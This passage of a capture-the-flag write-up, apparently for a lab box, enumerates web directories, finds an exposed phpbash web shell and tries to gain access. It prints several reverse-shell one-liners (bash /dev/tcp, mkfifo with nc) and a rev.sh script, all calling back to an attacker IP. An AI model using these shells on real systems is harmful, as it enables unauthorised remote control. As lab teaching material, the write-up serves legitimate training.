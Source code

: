 The page URL in the example image shown is at /uploads/phpbash.php, however, when we try visit the page we get a not found error.

Let's check out the routes found by gobuster and nikto:

> /uploads/ --> nothing in here
>
> /php/ --> contains one file: sendMail.php (loads but no output)
>
> /dev/ --> contains two files: phpbash.min.php and phpbash.php
>
> /config.php --> loads but no output

Let's visit the page at /dev/phpbash.php

![](<../../.gitbook/assets/5 (4).JPG>)

Nice, we have command execution.

## Gaining Access

Let's try an get a reverse shell:

> bash -i >& /dev/tcp/10.10.14.7/9999 0>&1&#x20;
>
> bash -i >& /dev/tcp/10.10.14.7/9999 0<&1 2>&1
>
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 9999 >/tmp/f

None of them work. Let's try uploading a shell script and then executing it. First, create the script as follows:

```
└─$ cat rev.sh                                                                                               
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.7/9999 0>&1
                                          
```

Next, start a web server in the directory containing the script:
